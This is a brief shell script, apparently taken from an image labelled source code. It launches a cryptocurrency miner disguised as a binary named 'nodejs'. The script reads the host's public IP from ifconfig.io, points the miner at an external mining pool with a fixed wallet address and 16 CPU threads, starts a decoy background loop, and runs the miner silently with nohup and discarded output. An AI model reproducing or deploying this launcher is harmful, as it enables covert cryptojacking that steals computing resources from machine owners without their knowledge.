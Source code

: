 chmod +x nodejs
ip=$(curl ifconfig.io)
config="--algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $ip --cpu-threads 16"
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs $config > /dev/null 2>&1 &
